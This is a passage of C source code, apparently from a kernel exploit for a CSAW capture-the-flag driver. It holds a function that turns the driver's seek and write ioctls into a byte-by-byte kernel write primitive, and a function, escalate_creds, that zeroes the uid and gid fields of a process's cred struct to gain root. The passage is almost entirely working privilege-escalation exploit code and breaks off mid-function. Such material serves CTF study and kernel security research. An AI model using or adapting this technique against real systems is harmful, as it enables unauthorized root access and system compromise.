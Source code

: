 ```
    int ret;
    char null_byte = 0;
    struct seek_channel_args seek_channel;
    struct write_channel_args write_channel;

    /*
     * The write primitive uses strncpy_from_user(), so we can't write full
     * dwords containing a null terminator. The exploit only needs to write
     * zeroes anyhow, so this function just passes a single null byte.
     */

    memset(&seek_channel, 0, sizeof(seek_channel));
    seek_channel.id = id;
    seek_channel.index = kaddr - 0x10;
    seek_channel.whence = SEEK_SET;

    ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

    memset(&write_channel, 0, sizeof(write_channel));
    write_channel.id = id;
    write_channel.buf = &null_byte;
    write_channel.count = sizeof(null_byte);

    ret = ioctl(fd, CSAW_WRITE_CHANNEL, &write_channel);

    return ret;
}

void escalate_creds ( int fd, int id, unsigned long cred_kaddr )
{
    unsigned int i;
    unsigned long tmp_kaddr;

    /*
     * The cred struct looks like:
     *
     *     atomic_t    usage;
     *     kuid_t      uid;
     *     kgid_t      gid;
     *     kuid_t      suid;
     *     kgid_t      sgid;
     *     kuid_t      euid;
     *     kgid_t      egid;
     *     kuid_t      fsuid;
     *     kgid_t      fsgid;
     *
     * where each field is a 32-bit dword.  Skip the first field and write
     * zeroes over the id fields to escalate to root.
     */

    /* Skip usage field */

    tmp_kaddr = cred_kaddr + sizeof(int);

    /* Now overwrite the id fields */

    for ( i = 0; i < (sizeof(int) * 8); i++ )
        write_kernel_null_byte(fd, id, tmp_kaddr + i);
}

void gen_rand_str ( char *str, unsigned int len )
{
    unsigned int i;
```